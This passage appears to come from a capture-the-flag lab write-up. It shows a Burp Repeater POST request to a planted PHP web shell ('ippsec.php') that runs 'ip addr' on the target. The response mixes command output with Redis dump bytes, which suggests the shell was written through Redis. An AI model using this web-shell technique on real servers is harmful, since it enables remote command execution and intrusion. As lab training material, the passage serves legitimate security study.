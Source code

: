 Repeater => Right Click (Change request method)

```
POST /ippsec.php HTTP/1.1
Host: localhost:8001
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="96"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 14

ippsec=ip addr	// can change executed command here
```

=> Send

```
HTTP/1.1 200 OK
Date: Sun, 09 Jan 2022 12:38:21 GMT
Server: Apache/2.4.10 (Debian)
X-Powered-By: PHP/7.0.30
Vary: Accept-Encoding
Connection: close
Content-Type: text/html; charset=UTF-8
Content-Length: 860

REDIS0008       redis-ver4.0.9 
 edis-bits @ ctime±  aused-mem¸?
 aof-preamble   PleaseSubscribe"1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
13: eth0@if14: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:14:00:03 brd ff:ff:ff:ff:ff:ff
    inet 172.20.0.3/16 brd 172.20.255.255 scope global eth0
       valid_lft forever preferred_lft forever
15: eth1@if16: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:13:00:03 brd ff:ff:ff:ff:ff:ff
    inet 172.19.0.3/16 brd 172.19.255.255 scope global eth1
       valid_lft forever preferred_lft forever
 p  j  N
```
